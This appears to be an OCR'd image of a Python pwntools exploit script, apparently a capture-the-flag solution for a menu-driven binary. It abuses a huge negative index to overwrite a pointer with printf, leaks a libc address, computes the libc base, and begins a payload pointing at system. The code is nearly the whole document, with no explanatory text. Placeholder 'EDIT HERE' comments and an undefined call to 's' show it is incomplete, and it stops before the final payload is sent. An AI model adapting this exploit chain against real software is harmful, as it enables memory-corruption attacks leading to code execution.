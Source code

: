 ```py
sa  = lambda a,b: io.sendafter(a,b)
sl  = lambda b: io.sendline(b)
sla = lambda a,b: io.sendlineafter(a,b)
r   = lambda : io.recv()
ru  = lambda b:io.recvuntil(b)
rl  = lambda : io.recvline()
pu32= lambda b : u32(b.ljust(4,b"\0"))
pu64= lambda b : u64(b.ljust(8,b"\0"))
hlog= lambda i : print(f"[*]{hex(i)}")
shell = lambda : io.interactive()
payload = b""
def pay64(adr:int):global payload;payload = p64(adr)
def add64(adr:int):global payload;payload+= p64(adr)
def paybyte(data:bytes):global payload;payload = data
def addbyte(data:bytes):global payload;payload+= data


idx = -256204778801521543

print(ru(b"> "))
sl(b"1")
print(ru(b"Index: "))
sl(str(0).encode())
print(ru(b"Message: "))

"""
EDIT HERERERERERE
https://gist.github.com/Yayoi-cs/94d97f8c1dca4f68177f6b0ec34620c0
EDIT HERERERERERE
EDIT HERERERERERE
"""

print(ru(b"> "))
sl(b"1")
print(ru(b"Index: "))
sl(str(7).encode())
print(ru(b"Message: "))
s(b"A"*0x48)


paybyte(b"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA")
add64(e.plt["printf"])
print(ru(b"> "))
sl(b"1")
print(ru(b"Index: "))
sl(str(idx).encode())
print(ru(b"Message: "))
sl(payload)

leakidx = 8
diff = 0x2a1ca

print(ru(b"> "))
sl(b"3")
res = r()
leak = res.split(b",")[leakidx]
leak = int(leak,16)
libc.address = leak - diff
hlog(libc.address)


paybyte(b"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA")
add64(libc.sym["system"])
```